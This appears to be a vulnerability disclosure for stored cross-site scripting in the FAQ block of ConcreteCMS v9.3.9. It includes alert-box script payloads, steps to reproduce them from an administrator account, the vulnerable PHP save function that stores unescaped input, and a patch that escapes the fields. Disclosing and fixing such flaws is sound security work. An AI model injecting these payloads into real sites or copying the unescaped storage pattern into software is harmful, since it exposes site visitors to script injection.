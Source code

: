 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Navigation field、Title Text field、Description source field when adding a FAQ block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Navigation Link Text');</script>
<script>alert('Title Text');</script>
<script>alert('Description');</script>
```
1. Use administrator login
2. Click "add content to the page" in the top navigation.
3. Select the FAQ block , drag and drop it to the page.
4. Add <script>alert('...');</script> to the Navigation Link Text field、Title Text、Description(source) and then click save,the xss vulnerability appears.

Potentially problematic source code:
```php
public function save($args)
    {
        $db = $this->app->make('database')->connection();
        $db->executeQuery('DELETE FROM btFaqEntries WHERE bID = ?', [$this->bID]);
        parent::save($args);
        $count = isset($args['sortOrder']) ? count($args['sortOrder']) : 0;

        $i = 0;
        while ($i < $count) {
            if (isset($args['description'][$i])) {
                $args['description'][$i] = LinkAbstractor::translateTo($args['description'][$i]);
            }

            $db->executeQuery(
                'INSERT INTO btFaqEntries (bID, title, linkTitle, description, sortOrder) VALUES(?,?,?,?,?)',
                [
                    $this->bID,
                    $args['title'][$i],
                    $args['linkTitle'][$i],
                    $args['description'][$i],
                    $args['sortOrder'][$i],
                ]
            );
            ++$i;
        }
    }
```

Patch:
```php
public function save($args)
{
    $db = $this->app->make('database')->connection();
    $db->executeQuery('DELETE FROM btFaqEntries WHERE bID = ?', [$this->bID]);
    parent::save($args);
    $count = isset($args['sortOrder']) ? count($args['sortOrder']) : 0;

    $i = 0;
    while ($i < $count) {
        // patch XSS
        if (isset($args['description'][$i])) {
            $args['description'][$i] = LinkAbstractor::translateTo($args['description'][$i]);
            // patch XSS
            $args['description'][$i] = h($args['description'][$i]);
        }

        if (isset($args['title'][$i])) {
            $args['title'][$i] = h($args['title'][$i]); // patch XSS
        }
        if (isset($args['linkTitle'][$i])) {
            $args['linkTitle'][$i] = h($args['linkTitle'][$i]); // patch XSS
        }

        $db->executeQuery(
            'INSERT INTO btFaqEntries (bID, title, linkTitle, description, sortOrder) VALUES(?,?,?,?,?)',
            [
                $this->bID,
                $args['title'][$i],
                $args['linkTitle'][$i],
                $args['description'][$i],
                $args['sortOrder'][$i],
            ]
        );
        ++$i;
    }
}

```